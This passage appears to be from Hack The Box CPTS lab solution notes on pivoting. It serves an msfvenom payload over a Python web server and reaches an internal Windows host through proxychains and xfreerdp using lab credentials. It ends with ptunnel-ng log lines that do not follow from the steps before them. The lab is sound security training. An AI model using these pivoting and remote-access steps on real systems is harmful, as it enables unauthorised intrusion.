 From within the Ubuntu server, students need to start a Python web server to serve up the `msfvenom` payload:

Code: shell

```shell
python3 -m http.server 8123
```

```
ubuntu@WEB01:~$ python3 -m http.server 8123

Serving HTTP on 0.0.0.0 port 8123 (http://0.0.0.0:8123/) ...
```

From `Pwnbox`/`PMVPN`, students need to connect to the Windows target (with the credentials being `victor:pass@123`), which resides on the internal network, utilizing the same pivot technique taught in the previous "Remote/Reverse Port Forwarding with SSH" section:

Code: shell

```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

ProxyChains-3.1 (http://proxychains.sf.net)
[15:02:07:519] [3249:3250] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state

<SNIP>

Certificate details for 172.16.5.19:3389 (RDP-Server):
	Common Name: DC01.inlanefreight.local
	Subject:     CN = DC01.inlanefreight.local
	Issuer:      CN = DC01.inlanefreight.local
	Thumbprint:  07:5d:3e:b7:27:4b:83:87:d3:68:b6:90:fc:0e:26:67:c3:6c:13:f0:b8:0f:c1:1e:51:05:2c:3f:f5:4d:54:2e
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y

<SNIP>
```

![[HTB Solutions/CPTS/z. images/19941a4de59b38a994f8031d75c87ea1_MD5.jpg]]

Once connected to the Windows machine successfully, students need to run `PowerShell` as Administrator:

![[HTB Solutions/CPTS/z. images/27ce9a11ec597d4d37fc21aa01b1d884_MD5.jpg]]


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.